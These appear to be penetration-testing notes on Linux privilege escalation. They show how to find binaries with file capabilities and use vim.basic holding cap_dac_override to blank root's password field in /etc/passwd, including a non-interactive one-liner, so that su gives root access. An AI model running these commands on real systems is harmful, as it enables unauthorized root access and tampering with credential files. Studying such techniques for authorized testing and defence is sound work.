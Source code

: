 
Find capabilities
```shell-session
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

Exploit Capabilities

If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:

```shell-session
getcap /usr/bin/vim.basic
```
For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Take a look at the `/etc/passwd` file where the user `root` is specified:
```shell-session
cat /etc/passwd | head -n1
```
results (note the x)
`root:x:0:0:root:/root:/bin/bash`


We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:
```shell-session
/usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:
```shell-session
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.
`root::0:0:root:/root:/bin/bash`
